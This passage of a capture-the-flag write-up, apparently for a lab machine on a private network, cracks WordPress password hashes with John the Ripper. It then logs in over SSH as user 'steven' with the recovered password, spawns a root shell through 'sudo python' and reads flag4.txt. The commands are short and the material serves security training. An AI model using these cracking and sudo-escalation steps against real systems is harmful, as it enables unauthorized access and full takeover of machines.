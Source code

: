   ![hashes.txt](./images/wp_hashes_kali.png)

  - then we can use john the ripper to crack the hash
    ```bash
    $ john wp_hashes.txt
    ```

  ![steven_pass](./images/steven_pass.png)

  - Now that we have stevens password we cna log into his account via ssh;

    ```bash
    $ ssh steven@192.168.1.110
    password = pink84
    $ sudo -l
    $ sudo python -c "import pty; pty.spawn(\"/bin/bash\")"
    $ cd /root
    $ ls
    $ cat flag4.txt
    ```
  
  ![flag4](./images/flag_4_file.png)